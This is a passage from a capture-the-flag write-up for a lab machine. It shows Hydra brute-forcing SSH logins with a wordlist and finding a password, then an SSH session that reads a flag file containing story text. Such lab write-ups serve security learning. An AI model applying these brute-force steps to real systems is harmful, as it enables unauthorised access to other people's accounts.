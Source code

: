 ```
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "1234567" - 7 of 14344398 [child 0] (0/0)
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "rockyou" - 8 of 14344398 [child 1] (0/0)
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "12345678" - 9 of 14344398 [child 2] (0/0)
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "abc123" - 10 of 14344398 [child 0] (0/0)
[ATTEMPT] target 192.10.2.5 - login "demonslayer" - pass "nicole" - 11 of 14344398 [child 1] (0/0)
[22][ssh] host: 192.10.2.5   login: demonslayer   password: 12345678
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-05-12 20:20:45
```
In fact I also found this password :wink: !! So I connected with these credentials and I found flag8.txt in home folder:

```plaintext
root@kali:~# ssh demonslayer@192.10.2.5
The authenticity of host '192.10.2.5 (192.10.2.5)' can't be established.
ECDSA key fingerprint is SHA256:sIaywVX5Ba0Qbo/sFM3Gf9cY9SMJpHk2oTZmOHKTtLU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.10.2.5' (ECDSA) to the list of known hosts.
demonslayer@192.10.2.5's password: 

          .                                                      .
        .n                   .                 .                  n.
  .   .dP                  dP                   9b                 9b.    .
 4    qXb         .       dX                     Xb       .        dXp     t
dX.    9Xb      .dXb    __                         __    dXb.     dXP     .Xb
9XXb._       _.dXXXXb dXXXXbo.                 .odXXXXb dXXXXb._       _.dXXP
 9XXXXXXXXXXXXXXXXXXXVXXXXXXXXOo.           .oOXXXXXXXXVXXXXXXXXXXXXXXXXXXXP
  `9XXXXXXXXXXXXXXXXXXXXX'~   ~`OOO8b   d8OOO'~   ~`XXXXXXXXXXXXXXXXXXXXXP'
    `9XXXXXXXXXXXP' `9XX'          `98v8P'          `XXP' `9XXXXXXXXXXXP'
        ~~~~~~~       9X.          .db|db.          .XP       ~~~~~~~
                        )b.  .dbo.dP'`v'`9b.odb.  .dX(
                      ,dXXXXXXXXXXXb     dXXXXXXXXXXXb.
                     dXXXXXXXXXXXP'   .   `9XXXXXXXXXXXb
                    dXXXXXXXXXXXXb   d|b   dXXXXXXXXXXXXb
                    9XXb'   `XXXXXb.dX|Xb.dXXXXX'   `dXXP
                     `'      9XXXXXX(   )XXXXXXP      `'
                              XXXX X.`v'.X XXXX
                              XP^X'`b   d'`X^XX
                              X. 9  `   '  P )X
                              `b  `       '  d'
                               `             '                       
                               THE NECROMANCER!
                                 by  @xerubus

$ pwd
/home/demonslayer
$ ls -l
total 4
-rw-r--r--  1 demonslayer  demonslayer  706 May 11  2016 flag8.txt
$ cat flag8.txt
You enter the Necromancer's Lair!

A stench of decay fills this place.

Jars filled with parts of creatures litter the bookshelves.

A fire with flames of green burns coldly in the distance.

Standing in the middle of the room with his back to you is the Necromancer.

In front of him lies a corpse, indistinguishable from any living creature you have seen before.

He holds a staff in one hand, and the flickering object in the other.

```